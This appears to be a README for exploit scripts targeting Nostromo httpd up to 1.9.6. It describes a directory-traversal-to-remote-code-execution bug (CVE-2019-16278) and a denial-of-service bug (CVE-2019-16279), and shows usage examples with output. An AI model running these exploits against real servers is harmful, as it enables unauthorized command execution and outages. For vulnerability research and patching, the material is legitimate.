

# Exploits for CVE-2019-16278 and CVE-2019-16279

Nostromo httpd is prone to 2 cricital vulnerabilities for versions <= 1.9.6 (0day =]) first one is an RCE through directory transversal, second one is a DoS

### [CVE-2019-16278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278) - Directory transversal to remote code execution

This bug is due to an incomplete fix for [CVE-2011-0751](https://nvd.nist.gov/vuln/detail/CVE-2011-0751). We can bypass a check for `/../` which allows us to execute `/bin/sh` with arbitrary arguments.

Example

    $ ./CVE-2019-16278.sh 127.0.0.1 8080 id
	uid=1001(sp0re) gid=1001(sp0re) groups=1001(sp0re)

### [CVE-2019-16279](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16279) - Denial of Service

This bug exploit a memory error when sending too many `\r\n` in a single connexion. 

Example

    $ curl http://127.0.0.1:8080
	HELLO!
    $ ./CVE-2019-16279.sh 127.0.0.1 8080
    $ curl http://127.0.0.1:8080
	curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused
	
## 参考链接：

https://git.sp0re.sh/sp0re/Nhttpd-exploits
